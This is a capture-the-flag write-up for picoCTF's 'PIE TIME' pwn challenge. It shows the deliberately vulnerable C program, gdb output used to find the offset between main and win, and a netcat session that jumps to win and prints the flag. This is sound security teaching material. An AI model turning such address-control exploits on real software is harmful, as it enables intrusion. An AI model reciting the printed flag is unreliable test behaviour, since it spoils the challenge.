 ```yaml
---
layout: writeup
title: PIE TIME
tags: Pwn
excerpt: "Can you try to get the flag? Beware we have PIE!"
---
```


## Description

Can you try to get the flag? Beware we have PIE! 

Connect to the program with netcat:
$ nc rescued-floay.picoctf.net 60696


Here is the source code:
```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void segfault_handler() {
  printf("Segfault Occurred, incorrect address.\n");
  exit(0);
}

int win() {
  FILE *fptr;
  char c;

  printf("You won!\n");
  // Open file
  fptr = fopen("flag.txt", "r");
  if (fptr == NULL)
  {
      printf("Cannot open file.\n");
      exit(0);
  }

  // Read contents from file
  c = fgetc(fptr);
  while (c != EOF)
  {
      printf ("%c", c);
      c = fgetc(fptr);
  }

  printf("\n");
  fclose(fptr);
}

int main() {
  signal(SIGSEGV, segfault_handler);
  setvbuf(stdout, NULL, _IONBF, 0); // _IONBF = Unbuffered

  printf("Address of main: %p\n", &main);

  unsigned long val;
  printf("Enter the address to jump to, ex => 0x12345: ");
  scanf("%lx", &val);
  printf("Your input: %lx\n", val);

  void (*foo)(void) = (void (*)())val;
  foo();
}
```

## Solution

This code, prints out the memory address of main, then asks the user to input an address, and that address is then gone to. In order to get the flag, the user needs to input the memory address of the `win` function.

Opening up the compiled binary in `gdb` in order to get the memory address of the `win` and `main` functions.
```bash
$ gdb vuln                
GNU gdb (Debian 16.3-1) 16.3
Copyright (C) 2024 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<https://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from vuln...
(No debugging symbols found in vuln)
(gdb) break main
Breakpoint 1 at 0x1345
(gdb) break win
Breakpoint 2 at 0x12af
```

As can be seen the memory address of `main` was `0x1345` and the memory address of `win` was `0x12af`. This gets a differnce in memory addresses of `150` or `0x96`.

So in order to get the flag, we need to grab the given memory address for `main`, and go back `0x96` memory addresses and then that will run the `win` function.

```bash
$ nc rescued-float.picoctf.net 59371
Address of main: 0x5dfc801b533d
Enter the address to jump to, ex => 0x12345: 0x5dfc801b52a7 # 0x5dfc801b533d - 0x96 = 0x5dfc801b52a7
Your input: 5dfc801b52a7
You won! # It worked, the `win` function is now being run
picoCTF{b4s1c_p051t10n_1nd3p3nd3nc3_3d38fb4b} # Thats the flag
```

As can be seen, the method worked, as the offset between `main` and `win` is constant even with `PIE` enabled. This is because `PIE` randomises the base memory address that the program runs at, not the memory addresses of the code within the program, this effect can be seen if the executable is run multiple times, as the `main` function and `win` function will have different memory addresses.

Finally as can be seen above, the flag is `picoCTF{b4s1c_p051t10n_1nd3p3nd3nc3_3d38fb4b}`
